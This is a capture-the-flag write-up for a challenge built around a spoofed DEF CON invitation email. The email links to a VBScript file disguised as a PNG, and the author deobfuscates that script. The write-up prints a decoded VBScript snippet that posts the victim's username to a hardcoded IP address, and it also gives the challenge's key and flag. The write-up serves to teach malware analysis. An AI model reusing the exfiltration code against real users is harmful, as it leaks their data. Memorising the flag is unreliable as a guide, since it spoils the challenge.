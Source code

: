 ### DEF CON Invitation
As you all know, DEF CON CTF Qualifier 2023 was really competitive and we didn't make it. 
Surprisingly, 2 months before the finals in Las Vegas, we received an official invitation from Nautilus Institute to 
attend the event. Should we accept the invitation and schedule the trip?

Author: sahuang
---
Given file: eml file: DEFCON_Finals_Invitation.eml

So we start out with an email. Looking at the message ID we see `Message-Id: <20230626040116.E7EA75474A4@emkei.cz>` which means that this was made with the fake emailer software emkei which explains how the email address looks real since emkei can send emails from any address without having access to it. So we can move on to looking at the attached calendar invite. 

The body of the calendar invite has two links
`https://storage.googleapis.com/defcon-nautilus/venue-guide.html and https://nautilus.org/`
The venue-guide link leads us to download a file named `venue-map.png.vbs` which is a poor attempt at hiding visual basic code as a png file. 
The vbs file has a lot of code in it, a lot is only relevant to the malware but everything after the final "your data is ours now pls send bitcoin" message is heavily obfuscated and looks strange, why would there be more code after the ransom message?

I picked out all the strange code and placed it in my own vbs file to run. 
![[pls.vbs]]

The output is as follows:
`c:\temp\defcon-flag.png.compromised `
```
https://download1647.mediafire.com/l188u2d532qg3fOoLpilcI89p0_h4E0cGLjk_uvBUiag7E_rMZ-H5-me9Kr9SQLVQaKSiKcEvJO-EkfTSUqWlrN6SzXgI0LYBh-F5em4IA4iX3tOIGh0Ej46GlwvLOfT8pzvuy91Utej1r2I0jg7YsUNcssPted508dskWRpkAI/yea535hvgp32vmv/defcon-flag.png.XORed
```

```
Dim http:
Set http = CreateObject("WinHttp.WinHttpRequest.5.1")
Dim url: url = "http://20.106.250.46/sendUserData"
With http
    Call .Open("POST", url, False)
    Call .SetRequestHeader("Content-Type", "application/json")
    Call .Send("{""username"":""" & strUser & """}")
End With
res = Msgbox("Thank you for your cooperation!", vbOKOnly+vbInformation, "")
```

The second one is a link to download a file named `defcon-flag.png.XORed` which, from the name, we can assume is our flag as an image that has been XORed. So now we just need to the key to XOR it back with. 

If we send our own POST request to the url in the third output (I used https://reqbin.com/post-online to do this) with a blank username, we get the following returned:
`{
    "key": "compromised",
    "msg": "Not admin!"
}`

Interesting. So if we instead send admin as the username, we get:
`{
    "key": "02398482aeb7d9fe98bf7dc7cc_ITDWWGMFNY",
    "msg": "Data compromised!"
}`

Very nice. From here I had to play around with cyberchef to work out how to use this key. I ended up converting the key to hex and XORing it with the png.XORED file and got the following image.
![[Pasted image 20230827115653.png]]
If we then flip the image both vertically and horizontally, we get the flag 
`SEKAI{so_i_guess_we'll_get_more_better_next_year-_-}`

For reference, my final cyberchef recipe was https://gchq.github.io/CyberChef/#recipe=XOR(%7B'option':'Hex','string':'30%2032%2033%2039%2038%2034%2038%2032%2061%2065%2062%2037%2064%2039%2066%2065%2039%2038%2062%2066%2037%2064%2063%2037%2063%2063%205f%2049%2054%2044%2057%2057%2047%204d%2046%204e%2059'%7D,'Standard',false)Render_Image('Raw')Flip_Image('Vertical')Flip_Image('Horizontal')
